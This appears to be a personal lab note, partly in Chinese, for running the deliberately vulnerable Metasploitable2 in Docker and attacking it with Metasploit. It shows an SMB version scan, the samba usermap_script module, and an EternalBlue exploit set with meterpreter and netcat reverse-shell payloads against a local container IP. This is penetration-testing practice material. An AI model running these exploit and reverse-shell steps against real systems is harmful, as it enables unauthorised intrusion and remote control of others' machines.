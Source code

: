 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`
docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"

docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable  # get Target IP


- -p 445:445：開放 SMB（檔案共享漏洞）
- -p 21:21：開放 FTP（容易被暴力破解）
- -p 22:22：開放 SSH（可能存在弱密碼）
- -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`
docker rm -f vulnerable  # if docker exist, delete it.
docker start vulnerable


# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`

`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`
`help  # check metasploit status`

# 4. Scan target system
use exploit/multi/samba/usermap_script


msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2
msf6 auxiliary(scanner/smb/smb_version) > run

## exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.17.0.2
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
set PAYLOAD cmd/unix/reverse_netcat

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.17.0.3
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit




